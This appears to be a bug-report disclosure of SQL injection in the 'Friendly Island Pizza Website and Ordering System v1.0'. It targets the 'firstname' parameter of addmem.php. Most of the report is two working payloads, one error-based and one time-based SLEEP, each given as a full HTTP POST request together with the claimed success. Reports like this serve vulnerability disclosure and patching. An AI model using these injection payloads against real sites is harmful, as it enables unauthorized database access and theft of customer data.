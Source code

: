 # Friendly Island Pizza Website and Ordering System v1.0 has SQL injection

BUG_Author: AureliusLia

Website source address:https://www.sourcecodester.com/php/14730/friendly-island-pizza-website-php-mysql.html

Vulnerability File: /FriendlyIsPizzaWebsite/addmem.php

POST parameter 'firstname' exists SQL injection vulnerability

Payload1:firstname=a' or (select 1 from(select count(*),concat(0x71727374,(select (elt(666=666,1))),0x61626364,floor(rand(0)*2))x from information_schema.plugins group by x)a) AND 'a'='a&lastname=b&email=c&pword=xB!7x!&ambot=d&number=1&house=e&street=f&city=g

```
POST /FriendlyIsPizzaWebsite/addmem.php HTTP/1.1
Host: localhost
Origin: http://localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 250
Connection: close
Cookie: PHPSESSID=2kc1au0d975mouepdpqqpeqdn4
Upgrade-Insecure-Requests: 1

firstname=a' or (select 1 from(select count(*),concat(0x71727374,(select (elt(666=666,1))),0x61626364,floor(rand(0)*2))x from information_schema.plugins group by x)a) AND 'a'='a&lastname=b&email=c&pword=xB!7x!&ambot=d&number=1&house=e&street=f&city=g
```

Injection success based on errors

![image](https://github.com/AureliusLia/bug_report/blob/main/pictures/sql1.png)

Payload2:firstname=a' and (select 2 from (select(SLEEP(20)))b) AND 'a'='a&lastname=b&email=c&pword=xB!7x!&ambot=d&number=1&house=e&street=f&city=g

```
POST /FriendlyIsPizzaWebsite/addmem.php HTTP/1.1
Host: localhost
Origin: http://localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 137
Connection: close
Cookie: PHPSESSID=2kc1au0d975mouepdpqqpeqdn4
Upgrade-Insecure-Requests: 1

firstname=a' and (select 2 from (select(SLEEP(20)))b) AND 'a'='a&lastname=b&email=c&pword=xB!7x!&ambot=d&number=1&house=e&street=f&city=g
```

Server response time is 20 seconds

![image](https://github.com/AureliusLia/bug_report/blob/main/pictures/sql2.png)
